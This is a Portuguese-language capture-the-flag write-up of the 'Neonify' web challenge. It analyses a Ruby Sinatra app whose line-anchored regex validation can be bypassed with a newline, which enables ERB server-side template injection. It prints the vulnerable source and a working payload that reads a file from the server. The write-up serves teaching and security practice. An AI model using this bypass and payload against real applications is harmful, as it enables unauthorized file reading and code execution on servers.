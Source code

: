 # Neonify

> É hora de uma brilhante revelação de um nunca antes visto "neonificador" de texto. Venha testar nosso mais novo website e faça qualquer texto brilhar como um tubo de neon de lo-fi.

Esse desafio consiste numa aplicação web em Ruby que estiliza a entrada do usuário para que ela receba um efeito Neon. A aplicação possui apenas um campo para entrada de dados e um botão para enviar o texto informado.

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengesneonifyhomepage.png" alt=""><figcaption><p>Neonify - Tela inicial</p></figcaption></figure>

Como o desafio fornece o código-fonte, podemos realizar uma análise para entender seu funcionamento. No index, perceba que a aplicação usa um template para carregar o texto informado pelo usuário:

{% code title="index.erb" overflow="wrap" lineNumbers="true" %}
```html
...SNIP
<h1 class="title">Amazing Neonify Generator</h1>
<form action="/" method="post">
    <p>Enter Text to Neonify</p><br>
    <input type="text" name="neon" value="">
    <input type="submit" value="Submit">
</form>
<h1 class="glow"><%= @neon %></h1> <!-- observe essa linha -->
SNIP...
```
{% endcode %}

Esse template é alimentado pelo arquivo `neon.erb`, que por sua vez recebe a entrada do usuário por meio de uma requisição `POST`, realiza uma validação e renderiza na página.

{% code title="neon.erb" lineNumbers="true" %}
```ruby
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```
{% endcode %}

Esse código valida o parâmetro POST `neon` por meio de [regular expression](https://www.devmedia.com.br/iniciando-expressoes-regulares/6557) e identifica a presença de caracteres que não sejam numerais ou letras de A a Z. Logo a seguir, esse parâmetro é retornado para alimentar o template na página `index`. Pesquisando, descobri que é possível o [bypass dessa expressão regular](https://exploit-notes.hdks.org/exploit/web/framework/ruby/ruby-on-rails-pentesting/#erb-template-injection) informando um payload de Server-Side Template Injection logo antes de uma quebra de linha. Dessa forma, a aplicação não consegue validar o payload malicioso e permite a injeção de templates na página. O payload final ficou da seguinte forma:

```ruby
<%25= File.open('flag.txt').read %25>
bypassed
```

Atente-se à quebra de linha antes do `bypassed`, é ela que permite o funcionamento do payload. Interceptando o envio da requisição e definindo esse payload, obtemos o seguinte resultado:

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengesneonifyssti.png" alt=""><figcaption><p>Neonify - Payload malicioso injetado</p></figcaption></figure>
